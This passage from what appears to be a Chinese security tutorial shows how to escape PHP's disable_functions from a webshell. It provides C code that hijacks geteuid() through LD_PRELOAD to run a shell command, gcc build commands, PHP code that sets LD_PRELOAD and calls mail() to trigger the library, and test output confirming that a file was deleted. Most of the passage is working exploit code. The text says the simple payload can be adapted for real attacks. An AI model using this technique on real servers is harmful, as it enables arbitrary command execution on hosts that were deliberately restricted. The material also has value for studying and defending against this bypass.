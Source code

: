 从中选取一个合适的库函数后我们就可以进行测试了：

1. 编制我们自己的动态链接程序。
2. 通过putenv来设置LD_PRELOAD，让我们的程序优先被调用。
3. 在webshell上用mail函数发送一封邮件来触发。

我们来测试删除一个新建的文件，这里我们选取geteuid()函数来改造，先在/tmp目录新建一个文件check.txt。

编写hack.c：

```c
#!c
#include <stdlib.h>
#include <stdio.h>
#include <string.h> 

void payload() {
        system("rm /tmp/check.txt");
}   

int  geteuid() {
if (getenv("LD_PRELOAD") == NULL) { return 0; }
unsetenv("LD_PRELOAD");
payload();
}
```

当这个共享库中的geteuid被调用时，尝试加载payload()函数，执行命令。这个测试函数写的很简单，实际应用时可相应调整完善。在攻击机上（注意编译平台应和靶机平台相近，至少不能一个是32位一个是64位）把它编译为一个位置信息无关的动态共享库：

```bash
#!shell
$ gcc -c -fPIC hack.c -o hack 

$ gcc -shared hack -o hack.so
```

再上传到webshell上，然后写一段简单的php代码：

```php
#!php
<?php
putenv("LD_PRELOAD=/var/www/hack.so");
mail("a@localhost","","","","");
?>
```



在浏览器中打开就可以执行它，然后再去检查新建的文件是否还存在，找不到文件则表示系统成功执行了删除命令，也就意味着绕过成功，测试中注意修改为实际路径。 本地测试效果如下：

```bash
#!shell
[yiyang@bogon Desktop]$ touch /tmp/check.txt
[yiyang@bogon bin]$ ./php mail.php
sendmail: warning: the Postfix sendmail command has set-uid root file permissions
sendmail: warning: or the command is run from a set-uid root process
sendmail: warning: the Postfix sendmail command must be installed without set-uid root file permissions
sendmail: fatal: setgroups(1, &500): Operation not permitted
[yiyang@bogon bin]$ cat /tmp/check.txt
cat: /tmp/check.txt: No such file or directory
```
